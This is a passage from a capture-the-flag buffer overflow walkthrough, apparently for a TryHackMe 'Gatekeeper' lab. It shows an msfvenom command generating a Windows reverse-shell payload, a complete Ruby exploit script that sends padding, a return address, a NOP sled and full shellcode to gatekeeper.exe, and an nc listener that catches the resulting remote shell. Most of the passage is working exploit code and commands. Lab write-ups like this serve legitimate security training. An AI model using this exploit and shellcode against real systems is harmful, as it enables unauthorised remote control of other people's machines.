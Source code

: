 Now, we are ready to get a reverse shell aka own our Windows VM machine via BOF. Let's generate our payload, don't forget to change LHOST to your Kali machine IP address:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.105 LPORT=5555 -f rb -a x86 --platform windows -b "\x00\x0A"

-b option allows us to exclude the badchars we have found earlier.
```
![Shellcode](shellcode.png) 

We need to copy and paste this into our getting a shell template:
```Ruby
buff = "A"*146
buff += "\xc3\x14\x04\x08"
buff += "\x90"*8
buff += "\xbb\xfb\xad\xee\xa2\xda\xda\xd9\x74\x24\xf4\x5a\x31\xc9" +
"\xb1\x52\x31\x5a\x12\x83\xc2\x04\x03\xa1\xa3\x0c\x57\xa9" +
"\x54\x52\x98\x51\xa5\x33\x10\xb4\x94\x73\x46\xbd\x87\x43" +
"\x0c\x93\x2b\x2f\x40\x07\xbf\x5d\x4d\x28\x08\xeb\xab\x07" +
"\x89\x40\x8f\x06\x09\x9b\xdc\xe8\x30\x54\x11\xe9\x75\x89" +
"\xd8\xbb\x2e\xc5\x4f\x2b\x5a\x93\x53\xc0\x10\x35\xd4\x35" +
"\xe0\x34\xf5\xe8\x7a\x6f\xd5\x0b\xae\x1b\x5c\x13\xb3\x26" +
"\x16\xa8\x07\xdc\xa9\x78\x56\x1d\x05\x45\x56\xec\x57\x82" +
"\x51\x0f\x22\xfa\xa1\xb2\x35\x39\xdb\x68\xb3\xd9\x7b\xfa" +
"\x63\x05\x7d\x2f\xf5\xce\x71\x84\x71\x88\x95\x1b\x55\xa3" +
"\xa2\x90\x58\x63\x23\xe2\x7e\xa7\x6f\xb0\x1f\xfe\xd5\x17" +
"\x1f\xe0\xb5\xc8\x85\x6b\x5b\x1c\xb4\x36\x34\xd1\xf5\xc8" +
"\xc4\x7d\x8d\xbb\xf6\x22\x25\x53\xbb\xab\xe3\xa4\xbc\x81" +
"\x54\x3a\x43\x2a\xa5\x13\x80\x7e\xf5\x0b\x21\xff\x9e\xcb" +
"\xce\x2a\x30\x9b\x60\x85\xf1\x4b\xc1\x75\x9a\x81\xce\xaa" +
"\xba\xaa\x04\xc3\x51\x51\xcf\x2c\x0d\x59\x66\xc5\x4c\x59" +
"\x6d\xa6\xd8\xbf\xe7\xd8\x8c\x68\x90\x41\x95\xe2\x01\x8d" +
"\x03\x8f\x02\x05\xa0\x70\xcc\xee\xcd\x62\xb9\x1e\x98\xd8" +
"\x6c\x20\x36\x74\xf2\xb3\xdd\x84\x7d\xa8\x49\xd3\x2a\x1e" +
"\x80\xb1\xc6\x39\x3a\xa7\x1a\xdf\x05\x63\xc1\x1c\x8b\x6a" +
"\x84\x19\xaf\x7c\x50\xa1\xeb\x28\x0c\xf4\xa5\x86\xea\xae" +
"\x07\x70\xa5\x1d\xce\x14\x30\x6e\xd1\x62\x3d\xbb\xa7\x8a" +
"\x8c\x12\xfe\xb5\x21\xf3\xf6\xce\x5f\x63\xf8\x05\xe4\x93" +
"\xb3\x07\x4d\x3c\x1a\xd2\xcf\x21\x9d\x09\x13\x5c\x1e\xbb" +
"\xec\x9b\x3e\xce\xe9\xe0\xf8\x23\x80\x79\x6d\x43\x37\x79" +
"\xa4"
RHOST = "192.168.0.227"
RPORT = 31337

require 'socket'

TCPSocket.open(RHOST,RPORT){ |s| s.puts buff}
```
Before running the Ruby script, let's start a reverse shell in another terminal:
```bash
nc -nlvp 5555
```
![nc ReverseShell](ncReverseShell.png)

Now, let's run our Ruby script:
```ruby shellcode.rb
```
When we check our nc listener, we can see that we have a reverse shell now!...

![Revershell](reverseshell.png)

Woohoo, we are connected to this machine by exploiting BOF vulnerability that gatekeeper.exe has so let's try our final script on THM platform now.

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
